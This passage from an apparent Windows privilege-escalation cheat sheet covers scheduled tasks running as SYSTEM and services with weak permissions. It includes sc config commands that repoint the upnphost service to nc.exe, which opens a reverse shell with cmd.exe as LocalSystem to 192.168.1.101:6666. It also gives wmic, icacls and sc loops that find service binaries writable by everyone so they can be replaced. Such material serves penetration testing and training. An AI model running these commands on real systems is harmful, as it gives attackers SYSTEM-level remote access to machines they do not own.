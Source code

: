 This might produce a huge amount of text. I have not been able to figure out how to just output the relevant strings with `findstr`. So if you know a better way please notify me. As for now I just copy-paste the text and past it into my linux-terminal.

Yeah I know this ain't pretty, but it works. You can of course change the name SYSTEM to another privileged user.

```
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

## Change the upnp service binary

```cmd
sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
```

## Weak Service Permissions

Services on windows are programs that run in the background. Without a GUI.

If you find a service that has write permissions set to `everyone` you can change that binary into your custom binary and make it execute in the privileged context.

First we need to find services. That can be done using `wmci` or `sc.exe`. Wmci is not available on all windows machines, and it might not be available to your user. If you don't have access to it, you can use `sc.exe`.

**WMCI**

```
wmic service list brief
```

This will produce a lot out output and we need to know which one of all of these services have weak permissions. In order to check that we can use the `icacls` program. Notice that `icacls` is only available from Vista and up. XP and lower has `cacls` instead.

As you can see in the command below you need to make sure that you have access to `wimc`, `icacls` and write privilege in `C:\windows\temp`.

```cmd
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```

Binaries in system32 are excluded since they are mostly correct, since they are installed by windows.

**sc.exe**

```cmd
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
